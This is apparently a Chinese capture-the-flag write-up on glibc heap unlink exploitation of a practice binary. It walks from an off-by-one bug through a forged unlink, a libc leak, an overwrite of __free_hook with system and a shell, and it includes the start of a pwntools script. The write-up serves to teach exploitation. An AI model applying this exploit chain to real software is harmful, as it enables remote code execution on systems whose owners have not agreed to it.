 
# unlink

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605093614802-fa9d1ab3-ab44-4c0d-b8e2-4c661f7bc473.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605093632214-aade0833-88d3-4c15-9152-15d24a4e3e73.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605093684308-f899f5ad-aa6e-4eb8-8bfd-361fa6f85711.png)

## 例题offbyone_unlink

### 逆向分析

add的大小：
![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605093941696-82450425-6456-490a-b176-db7201d6f4b8.png)

可以申请到一个unsorted bin

del中置0了，并些num-1

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605094002519-86b09dfb-ffef-4b0f-aa44-ef373ffe8ce6.png)

漏洞点，edit中存在off by one：
![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605094041341-656a5dd9-d08a-4239-a03f-730225f815ca.png)

### 调试

首先申请一个占用下一个chunk prev size位大小的chunk，编辑fd，bk指针，之后溢出到下一个chunk的prev in use位后free下个chunk触发unlink达成目的

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605095015938-0e50619f-3d4c-446b-890e-7d0714c2996e.png)

可以看到data的指针指向了data-0x18的位置，获得了任意地址读写的功能

此时修改chunk0就可以改写data数组（堆数组）的目的，比如将chunk1改成想要的got地址，leak libc

leak 之后再改写free hook为system即可，最后free掉有字符读'/bin/sh'的chunk即可获取shell

### 脚本

```python
from pwn import *

p = process('./offbyone_unlink')
context.log_level = 'debug'

def launch_gdb():
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c'] 
    gdb.attach(proc.pidof(p)[0]) 

def new(s,c):
    p.recvuntil('>')
    p.sendline('1')
    p.recvuntil('size')
    p.sendline(str(s))
    p.recvuntil('data')
    p.send(c)

def delete(i):
    p.recvuntil('>')
    p.sendline('2')
    p.recvuntil('index')
    p.sendline(str(i))
    
```